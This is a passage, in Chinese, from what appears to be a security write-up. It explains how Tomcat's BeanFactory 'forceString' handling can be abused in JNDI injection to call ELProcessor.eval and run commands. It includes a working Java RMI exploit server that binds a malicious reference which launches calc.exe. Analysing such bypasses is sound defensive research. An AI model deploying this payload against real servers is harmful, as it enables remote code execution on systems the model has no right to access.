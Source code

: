 ![](img/2023-02-21-15-04-34.png)  
在最后会通过反射来执行该setter方法.  
![](img/2023-02-21-15-06-59.png)
##### POC
可以看到其获取setter方法的逻辑只是简单的用`,`和`=`进行分割,并没有校验是否是真的setter方法,所以可以构造恶意的ref使其调用恶意方法.
```java
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc.exe']).start()\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("evilFactory", referenceWrapper);
            System.out.println("evilFactory reference bound");
```
通过构成beanClass为`ELProcessor`,然后设置其setter方法为`eval()`,利用EL表达式注入RCE.  